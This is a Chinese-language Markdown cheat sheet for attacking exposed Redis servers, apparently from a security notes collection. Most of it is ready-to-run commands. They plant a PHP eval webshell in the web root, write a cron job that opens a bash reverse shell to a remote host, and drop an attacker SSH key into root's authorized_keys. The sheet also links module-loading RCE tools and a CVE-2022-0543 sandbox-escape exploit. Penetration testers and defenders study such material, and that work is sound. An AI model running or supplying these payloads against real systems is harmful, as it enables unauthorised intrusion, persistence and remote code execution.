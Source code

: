 # Redis 漏洞利用
## 0x00 Introduction
redis是一个key-value存储系统。   

### 前置条件      
获取redis权限
- 未授权
- 弱口令

### 达成的漏洞利用效果
- 写任意文件
- 信息泄露
- 远程命令执行

## 0x01 漏洞利用

### 1. 信息泄露

#### (1)info命令

可以泄露操作系统信息，以此为后续漏洞利用做准备。   

### 2. 写任意文件->RCE

#### (1) 新建DB写文件->webshell
附件条件：
1. 同主机存在web服务
2. 已知网站路径
3. 具备写权限 
    
```
config set dir /var/www/html    
config set dbfilename webshell.php  
set shell "<?php @eval($_POST['shell']);?>"  
save  
```
#### (2) 新建DB写文件->计划任务反弹shell
```
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > re.txt
```
```
cat re.txt | redis-cli -h 192.168.1.11 -x set test
config set dir /var/spool/cron
set tide "\n\n*/1 * * * * /bin/bash -i>&/dev/tcp/x.x.x.x/8899 0>&1\n\n"
config set dbfilename root
save
```

#### (3) 新建DB写文件->公钥SSH连接
```
redis-cli -h x.x.x.x
config set dir /root/.ssh 
config  set  dbfilename authorized_keys
save
```
本地连接：
```
ssh  -o StrictHostKeyChecking=no 192.168.1.1
```
### 3. 远程命令执行

#### (1) 主从同步->RCE
- 附加条件： redis 4.x-5.0.5
- 在Redis 4.x之后，Redis新增了模块功能，通过外部拓展，可以在redis中实现一个新的Redis命令，通过写c语言并编译出.so文件。  

#### Linux
- 漏洞利用： https://github.com/Ridter/redis-rce
- linux 命令执行模块（so）：https://github.com/RicterZ/RedisModules-ExecuteCommand.

redis-rce工具一键利用    
#### Windows
- 漏洞利用：https://github.com/r35tart/RedisWriteFile
- windows 命令执行模块（dll）:https://github.com/0671/RedisModules-ExecuteCommand-for-Windows

```
python RedisWriteFile.py --auth 123qwe --rhost=10.20.3.97 --rport=6379 --lhost=10.10.10.31 --lport=2222 --rpath="C:\Users\test\Desktop" --rfile="exp.dll" --lfile="exp.dll" 

redis:
>module load C:\Users\test\Desktop\exp.dll 
>exp.e whoami
```
#### (2) Redis沙盒绕过（CVE-2022-0543）
- 附加条件： 2.2 <= redis < 5.0.13，2.2 <= redis < 6.0.15，2.2 <= redis < 6.2.5
- 漏洞利用：https://github.com/aodsec/CVE-2022-0543

## Ref
- https://www.freebuf.com/column/237263.html
